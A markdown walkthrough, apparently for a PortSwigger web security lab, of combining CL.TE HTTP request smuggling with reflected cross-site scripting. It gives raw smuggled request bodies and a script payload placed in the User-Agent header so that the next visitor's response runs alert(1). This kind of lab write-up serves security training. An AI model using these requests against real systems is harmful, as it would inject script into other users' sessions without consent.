








# Exploiting HTTP request smuggling to deliver reflected XSS

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## The application is also vulnerable to [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) via the `User-Agent` header.

## To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.

---

step 1

```
Content-Length: 116
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```



step 2

inspect comment section



step 3
intercept post



step 4
add payload
`"><script>alert(1)</script><"` into User-Agent



after forward request your browser come with pop up



inspect the pop up element



step 5
final payload to solve lab

```
Content-Length: 116
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script><"
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```




